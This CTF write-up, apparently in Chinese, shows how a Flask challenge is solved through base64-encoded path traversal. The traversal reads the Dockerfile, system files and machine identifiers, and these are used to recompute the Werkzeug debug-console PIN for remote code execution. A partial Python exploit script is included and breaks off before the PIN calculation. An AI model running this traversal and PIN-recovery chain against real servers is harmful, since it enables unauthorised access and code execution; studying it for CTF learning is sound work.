 透過這樣就能取得 Dockerfile，取得 Dockerfile 後，便可以此類推，觀察 COPY 的檔案路徑，透過 path traversal 拿到其他檔案。

觀察這個 Dockerfile，可以發現以下幾件事。
- 這題使用的 image `python:3.10-alpine`
- 這題的 flask 有開啟 debug mode (此題關鍵)
- flag 的位置

![image](./assets/dockerfile_LFI.png)

接下來，我們的目標是達到 RCE，透過一些搜尋，發現當 flask （或者說有使用 Werkzeug 的 debug 當作依賴） debug mode 開啟時，只要能取得以下資訊，便可將 pin code 反算回來。
- username (可透過 Dockerfile 得知為 `daemon`)
- modname (觀察 app.py 得知為 `flask.app`)
- name of Flask class (`Flask`)
- location of app.py (將該 image 建起來後，可以找到路徑為 `/usr/local/lib/python3.10/site-packages/flask/app.py`)
- node_uuid
- machine_id

剩下的 node_uuid 與 machine_id 我們皆可以透過 LFI 拿到，詳細可參考資源。

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug

算出 pin code 後，我們到 `/console` 輸入 pin code，便可成功 get shell，之後便可使用任意 python 了。

exploit:

```python
import requests
from urllib3.exceptions import InsecureRequestWarning
from base64 import b64encode
import hashlib
from itertools import chain

requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

url = 'CHALLANGE URL'

def get_file(path):
    path = b64encode(path.encode()).decode()
    r = requests.get(url+f'/img/{path}', verify=False)
    return r.content

node_uuid = str(int(get_file('../../../../../../../sys/class/net/eth0/address').decode().replace(":", ""), 16))
machine_id = get_file('../../../../../../../proc/sys/kernel/random/boot_id').strip()

print(node_uuid)
print(machine_id)
probably_public_bits = [
	'daemon', # username of the user running flask
	'flask.app', # modname of app.py
	'Flask', # name of the Flask class
	'/usr/local/lib/python3.10/site-packages/flask/app.py', # location of app.py (flask module)
]
```